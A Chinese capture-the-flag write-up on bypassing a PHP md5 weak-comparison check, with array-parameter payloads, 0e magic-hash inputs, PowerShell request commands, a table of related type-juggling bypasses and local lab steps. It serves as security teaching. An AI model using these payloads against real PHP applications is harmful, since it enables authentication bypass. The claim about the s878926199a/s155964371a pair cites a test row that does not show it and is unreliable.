



# NSSCTF · PHP 弱类型 md5 绕过 —— Writeup

> 分类：Web（PHP 类型混淆 / 弱比较）
> 环境：PHP 7.3.4（本地 `phpstudy` 复现靶）
> 做题日期：2026-10-26
> Flag：真实靶机本轮已销毁；本地靶 flag 是自造的 `NSSCTF{LOCAL_TEST_array_bypass_ok}`，**提交以题目页为准**

---

## 30 秒速查卡

源码要求「两个值**不同**，但它们的 md5 **相同**」：

```php
if ($name != $password && md5($name) == md5($password)) { echo $flag; }
```

正常人会去搜 MD5 碰撞——**死路**。正确思路不是"造碰撞"，而是**让 `md5()` 算不出正常结果**。

| 打法 | 发送内容 | 为什么成立 |
|------|----------|-----------|
| **数组绕过**（首选） | `?name[]=a` + `password[]=b` | `md5(数组)` 返回 `NULL`，`NULL == NULL` |
| 0e 绕过 | `?name=QNKCDZO` + `password=240610708` | 两个 md5 都是 `0e...` 纯数字 → 当科学计数法比 |

两条都过 `==`；**代码写 `===` 时只有数组绕过能救**（`NULL === NULL`）。

```powershell
Invoke-WebRequest "http://<host>/?name%5B%5D=a" -Method POST `
  -Body "password%5B%5D=b" -ContentType "application/x-www-form-urlencoded" -UseBasicParsing
```

---

## 1. 题目源码

```php
<?php
highlight_file(__FILE__);
include 'flag2.php';

if (isset($_GET['name']) && isset($_POST['password'])){
    $name = $_GET['name'];
    $password = $_POST['password'];
    if ($name != $password && md5($name) == md5($password)){
        echo $flag;
    } else { echo "wrong!"; }
} else { echo 'wrong!'; }
?>
```

三层限制：

1. `isset($_GET['name']) && isset($_POST['password'])` —— **GET 和 POST 都得给**
2. `$name != $password` —— 两个值必须不同
3. `md5($name) == md5($password)` —— 但哈希必须相等

## 2. 本地实测（PHP 7.3.4 真实输出）



| # | GET `name` | POST `password` | `!=` | `md5()` 结果 | `==` | 结论 |
|---|---|---|---|---|---|---|
| ① | 不给 | — | — | — | — | `wrong!` |
| ② | `a` | `b` | true | 两个不同哈希 | false | `wrong!`（老实给值必挂） |
| ③ | `name[]=a` | `password[]=a` | false | NULL / NULL | true | `wrong!`（**同值必挂**） |
| ④ | `name[]=a` | `password[]=b` | true | NULL / NULL | true | ✅ **flag** |
| ⑤ | `QNKCDZO` | `240610708` | true | 都是 `0e...` | true | ✅ **flag** |
| ⑥ | `name[]=a` | 不给 | — | — | — | `wrong!`（`isset` 拦住） |



## 3. 关键原理：`md5()` 收到数组返回 NULL

```
$name = ['a']      $password = ['b']

$name != $password    ->  ['a'] != ['b']            -> true    ✅ 内容不同
md5(['a'])            ->  NULL  (+ 一个 Warning)     ✅ 不中断，只返回 NULL
md5(['b'])            ->  NULL
NULL == NULL          ->  true                       ✅ 条件成立
```

**核心认知**：PHP 5/7 的内部函数在非严格模式下遇到无法转换的参数，**不是抛异常停下，而是返回 NULL 继续跑**。

真实 HTTP 响应里服务器自己喷的警告，就是绕过成立的铁证：



```html
<b>Warning</b>: md5() expects parameter 1 to be string, array given
             in ...\index.php on line 8
NSSCTF{LOCAL_TEST_array_bypass_ok}
```

## 4. 两条路怎么选

| | 数组绕过 | 0e 绕过 |
|---|---|---|
| 原理 | `md5()` 返回 `NULL` | 科学计数法按数字比 |
| 过 `==` | ✅ | ✅ |
| 过 `===` | ✅（`NULL === NULL`） | ❌（字符串本身不同） |
| PHP 8.0+ | ❌ 抛 `TypeError` → 500 | ❌ 改为纯字符串比较 |

- 代码写 `===` → 只有数组绕过能救，且目标必须 PHP ≤ 7
- 目标是 PHP 8 → 两条都失效，得找逻辑洞 / 真碰撞 / 别的绕过

## 5. 0e 明文备查

`md5()` 结果是 `0e` 开头且后面全是数字时，PHP 把它当科学计数法 → 值等于 `0`。

```
md5('QNKCDZO')   = 0e830400451993494058024219903391
md5('240610708') = 0e462097431906509019562988736854
```

常用明文：`QNKCDZO`、`240610708`、`s878926199a`、`s155964371a`、`s2145873871a`、`s2146663357a`、`s894343897`、`s3002851`

> 注意：`s878926199a` 与 `s155964371a` **不能**配成一对（见上表 ⑤ 那行实测，`==` 是 false）。

## 6. 同类绕过家族（遇到对应函数就套）

| 函数 | 传数组会怎样 | 绕过式 |
|---|---|---|
| `md5()` / `sha1()` | 返回 `NULL` | `?a[]=1` + `b[]=2` |
| `strcmp()`（PHP<8） | 返回 `NULL` | `?a[]=1` → `!strcmp($a,$b)` 为真 |
| `ereg()` / `eregi()` | 返回 `false` | `%00` 截断（PHP<5.3.4） |
| `intval()` | 数组返回 `1` | `?a[]=1` |
| `is_numeric()` | 数组返回 `false` | 反向利用 |
| `in_array()`（PHP<8 松散） | — | `in_array('abc', [0,1])` 为 true |

## 7. 怎么本地重跑这套靶

```powershell
$php = "D:\phpstudy_pro\Extensions\php\php7.3.4nts\php.exe"

# 1) 只看逻辑，不起服务
& $php "D:\XiaoMibook\CTF学习\md5_array_lab\test_logic.php"

# 2) 起完整靶机（窗口留着别关）
& $php -S 127.0.0.1:8123 -t "D:\XiaoMibook\CTF学习\md5_array_lab\www"

# 3) 另开一个窗口打
Invoke-WebRequest "http://127.0.0.1:8123/?name%5B%5D=a" -Method POST `
  -Body "password%5B%5D=b" -ContentType "application/x-www-form-urlencoded" -UseBasicParsing | % Content
```

目录结构：

```
md5_array_lab/
├── test_logic.php      # 逐条验证 != 和 == 是否成立
└── www/
    ├── index.php       # 原题源码（一模一样）
    └── flag2.php       # 假 flag，方便确认逻辑走通
```

## 8. 踩坑记录

| 坑 | 表现 | 原因 |
|---|---|---|
| 两边都传 `a` | `wrong!` | `['a'] != ['a']` 是 false，第一关就没过 |
| 只给 GET 不给 POST | `wrong!` | `isset($_POST['password'])` 为假 |
| 想用 `?name[]=a&password[]=b` 全放 GET | `wrong!` | `$_POST` 是空的 |
| 用 `s878926199a` / `s155964371a` 配对 | `wrong!` | 后者 md5 不是 `0e` 开头（见实测 ⑤） |
| 在 PHP 8 靶机上用数组 | 500 + `TypeError` | PHP 8 把内部函数的类型错误改成异常 |

## 9. 一句话记住

> 看到「不同值 + 相同哈希」，先问一句：**能不能让 `md5()` 直接返回 NULL？**
> 能 → 传数组；不能（`===` 或 PHP 8）→ 再谈 `0e` 和碰撞。
